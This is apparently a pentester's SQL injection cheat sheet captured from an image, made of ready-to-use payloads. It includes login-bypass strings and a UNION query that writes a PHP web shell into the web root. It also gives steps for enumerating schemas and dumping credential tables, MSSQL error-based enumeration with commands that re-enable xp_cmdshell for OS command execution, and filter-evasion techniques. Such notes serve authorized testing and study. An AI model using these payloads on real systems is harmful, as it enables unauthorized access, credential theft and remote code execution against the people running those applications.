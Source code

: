 # SQL injection 

## Login Bypass:   << replace ' with " if fail
  ' or '1'='1  
  ' or 1=1;--  
  ' or 1=1;#  
  ') or ('x'='x  
  ' or <column> like '%';--  
  ' or 1=1 LIMIT 1;--  

  USERNAME:   ' or 1/*  
  PASSWORD:   */ =1 --  

  USERNAME: admin' or 'a'='a  
  PASSWORD '#  

If the database is mysql, try to dump all login info to files?

Mysql
  '*'   
  '&'  
  '^'  
  '-'  
  ' or true;--   
  ' or 1;--  

union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'

## Enumeration
1. Confirm number of columns
order by 1 -- 100

2. union select
union select 1,2,3,4,5,6,7 to find which column will display info

3. Find databse name, user name, and version.  << must use group_concat for one liner
(select group_concat(database(),0x3a,user(),0x3a,version()))

4. Find table name
table_name                                      from information_schema.tables where table_schema=database()
(select group_concat(table_name) from information_schema.tables where table_schema=database())

5. Find columns 
column_name                                 from information_schema.columns where table_name='<Table_Name>'
column_name                                 from information_schema.columns where table_name=<HEX>
column_name                                 from information_schema.columns where table_name like <HEX>
(select group_concat(column_name) from information_schema.columns where table_name='dev_accounts')
(select group_concat(column_name) from information_schema.columns where table_name=0x6465765f6163636f756e7473)   << possible that some character are filtered out

6. Dump data
(select group_concat(id, 0x3A, username, 0x3A, password) from dev_accounts)

7. One liner to output all corresponding databse with table and columns
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns)
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns where table_schema=database())

	concat(table_schema,0x3a,table_name,0x3a,column_name)               from information_schema.columns where table_schema=database()

### MSSQL Enumeration: Error based - https://www.exploit-db.com/papers/12975/

	Enumerate column and table name
	http://www.example.com/page.asp?id=1' HAVING 1=1--
	Error message: Column 'news.news_id' is invalid                 < table_name.column

	http://www.example.com/page.asp?id=1' GROUP BY news.news_id HAVING 1=1--
	Error message: Column 'news.news_author' is invalid           < table_name.column2

	http://www.example.com/page.asp?id=1' GROUP BY news.news_id,news.news_author HAVING 1=1--
	Error message: Column 'news.news_detail' is invalid             < table_name.column3

	Until no error

	Enumerate version, db name, users:
	http://www.example.com/page.asp?id=1+and+1=convert(int,@@version)--
	http://www.example.com/page.asp?id=1+and+1=convert(int,db_name())--
	http://www.example.com/page.asp?id=1+and+1=convert(int,user_name())--       << Is the user running as dbo or sa?

	xp_cmdshell << if running as database admin
	http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
	'; exec master.dbo.xp_cmdshell 'command'



	On MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
	EXEC sp_configure 'show advanced options', 1;--
	RECONFIGURE;-- 
	EXEC sp_configure 'xp_cmdshell', 1;-- 
	RECONFIGURE;--  

	On MSSQL 2000:
	EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--


## SQL filter bypass
Beyond SQLi: Obfuscate and Bypass - https://www.exploit-db.com/papers/17934/

	AND, OR operators
	AND = &&
	OR = ||

	Comment operator << Mysql
	--  	
	#  
	/**/  

	Regular expression
	It is common that PHPIDS will block operators such as =, ', (), 
	table_name = 'users' X
	table_name between 'a' and 'z' X
	table_name between char(97) and char(122) X

	Convert strings to HEX format.
	table_name between 0x61 and 0x7a
	table_name like 0x7573657273

	Change case
	union > UniOn
	select > SeLect

	Inline comments << Mysql 5.0
	/*! <sql operator> */
